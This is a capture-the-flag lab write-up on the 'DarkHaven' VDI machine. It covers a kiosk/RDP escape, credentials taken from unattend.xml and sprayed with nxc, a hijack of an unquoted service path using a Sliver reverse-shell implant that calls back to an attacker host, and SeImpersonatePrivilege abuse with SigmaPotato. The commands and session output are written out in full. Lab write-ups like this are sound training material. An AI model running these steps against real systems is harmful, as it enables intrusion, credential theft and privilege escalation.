

# Lab Description
DarkHaven is deploying a new Virtual Desktop Infrastructure (VDI) to harden their corporate network. You have been engaged to assess the security of their VDI portal and underlying architecture. Your primary objective is to identify vulnerabilities that could allow an authenticated user to escape the virtualized environment and escalate privileges.

### Initial Access

DarkHaven has provided you with low-privileged credentials for the VDI portal.

```
Username: vdiuser
Password: VDI@DH2024!
```
#### Note From Lab Author
If you get a "Script Error" message after connecting to the VDI, you can ignore it. It does not affect the lab in any way. This is what Ryan (author) said, "VDIs are usually broken, at least that is what we usually see and it is a pain to do stuff -- the error is intended."

### Target IP
```
10.1.6.165
```

# Bypassing Virtual Desktop Infrastructure (VDI) - Port 8433 
- `https://darkhaven-vdi.corp:8443/portal.asp`
- we can login with the given credentials, and here we land inside a restricted Virtual RDP session
### Escaping VDI
- After multiple tries, here is what worked with me to escape the VDI and open an interactive `Powershell` session as the `vdiuser`
	1. Connect to the `vdi` using `xfreerdp3`
	```bash
	xfreerdp3 /v:10.1.6.165 /u:vdiuser /p:'VDI@DH2024!' /cert:ignore /size:1280x720 +clipboard /drive:minya,`pwd`/rdpshare
	```
	2. Right Click on the screen 
	3. Press `Print Preview`
	4. Click on the `Printer` icon in the top left Then press `Find Printer...` Button
		![[Pasted image 20260605014403.png]]
	5. Now in the new opened Windows, Type `powershell` or `cmd` in the top file path Bar![[Pasted image 20260605014531.png]]
	6. Now Finally we escaped the Virtual RDP and we can proceed with enumerating the system![[Pasted image 20260605014643.png]]

# Flag - 1 (User `vdiuser`)
- Using the powershell session we have, we can search for the flag file
```powershell
Get-ChildItem -Path c:/ -Name "*flag*" -Recurse -Force
```
- Flag found at `C:\VDIData\flag1.txt`
- interestingly `flag2.txt` is in `svcuser`'s Desktop and we don't have the permission to read it's content yet
## System Enumerations
- Interesting Service caught my attention related to `Dark`  
```PricescCheck.ps1
Name        : DH_KioskMonitor
DisplayName : Darkhaven Kiosk Monitor
ImagePath   : C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe
User        : .\dh_admin
StartMode   : Automatic
```
- It was a dead end since we didn't have write permission to the directories in the Path of the executable
### Finding `svcuser` credentials
- after LOTS of search, we found an unattend.xml at `C:\Windows\Panther\` that had the base64 encoded password, and it worked with user `svcuser`
```bash
 ~/hacksmarter/kiosk ❯ nxc rdp 10.1.6.165 -u users.txt -p 'Svc_DH!2024' --local-auth                                                              
RDP         10.1.6.165      3389   EC2AMAZ-0536LUM  [*] Windows 10 or Windows Server 2016 Build 17763 (name:EC2AMAZ-0536LUM) (domain:EC2AMAZ-0536LUM) (nla:True)
RDP         10.1.6.165      3389   EC2AMAZ-0536LUM  [-] EC2AMAZ-0536LUM\vdiuser:Svc_DH!2024 (STATUS_LOGON_FAILURE)
RDP         10.1.6.165      3389   EC2AMAZ-0536LUM  [+] EC2AMAZ-0536LUM\svcuser:Svc_DH!2024 (Pwn3d!)

```

# Flag - 2 (user `svcuser`)
- Using the credentials for user `svcuser` we can rdp, and we also landed inside another sandboxed `RDP`, and the way to escape it is very similar to the first escape
	1. we navigate to `Documents` 
	2. Click on `Browse Local Files`
	3. Type `powershell` in the top windows path bar![[Pasted image 20260605041322.png]]
	4. Landed inside a `powershell` session as `svcuser` 
- Now we can simply read the flag from `c:\users\svcuser\desktop\flag2.txt`

# Flag - 3 (user `dh_admin`)
- Now looking back the the unquoted service, Now we have Write permission to directories in the service executable path as user `srvuser`
- For this to be exploitable we also need to be able to trigger the service to restart, so we check our permissions on this `DH_KioskMonitor` service
```cmd
sc.exe sdshow DH_KioskMonitor
```
- Somehow I couldn't see my permissions for this service, But when I tried to stop it for the restart, it Worked!!
```
sc.exe stop DH_KioskMonitor
```
- Start it again 
```cmd
sc.exe start 
```
### Exploiting unquoted service executable path
- Now since we verified that the vulnerble paths are writable and we can restart the service, Now we can just generate a reverse shell executable using sliver, Make sure the format is set to `service`
```sliver
generate --mtls 10.200.62.52:8888 --os windows --arch amd64 --format service --save DH.exe
```
- Move the ez.exe to be named as `DH.exe` at the target Path, so windows will execute `C:\Program Files\Darkhaven Kiosk Services\DH` While trying to execute the unquoted path, and so our implanted `DH.exe` will be executed instead
```pwoershell
copy \\tsclient\minya\DH.exe "C:\Program Files\Darkhaven Kiosk Services\DH.exe"
sc.exe stop DH_KioskMonitor
sc.exe start DH_KioskMonitor
```
- Once it is transferred completely, we can now restart the service `DH_KioskMonitor` and a a new session callbacks to our Sliver server 
```bash
[*] Session 2c44efc7 OLYMPIC_BIPLANE - 10.1.6.165:55986 (EC2AMAZ-0536LUM) - windows/amd64 - Fri, 05 Jun 2026 03:04:28 UTC

[localhost] sliver > use 2c44efc7

[*] Active session OLYMPIC_BIPLANE (2c44efc7-557d-4d71-98fb-d5c8187bbcfe)

[localhost] sliver (OLYMPIC_BIPLANE) > whoami

Logon ID: EC2AMAZ-0536LUM\dh_admin
[*] Current Token ID: EC2AMAZ-0536LUM\dh_admin

```

- Finally we can get the third flag![[Pasted image 20260605064745.png]]


# Flag - 4 (user `Administrator`)
- one we landed at the `dh_admin` user we found `SeImpersonatePrivilege`![[Pasted image 20260605064908.png]]
### Exploiting `SeImpersonatePrivilege` using [`SigmaPotato.exe`](https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe)
- using Sliver we can execute the `.NET` SigmaPotato.exe without transferring it to the remote target and getting blocked by Microsoft Defender using `execute-assembly`
```sliver
execute-assembly -i ./SigmaPotato.exe "C:\Windows\System32\cmd.exe /c type C:\Users\administrator\desktop\flag4.txt"
```
![[Pasted image 20260605065155.png]]

# Machine Summry


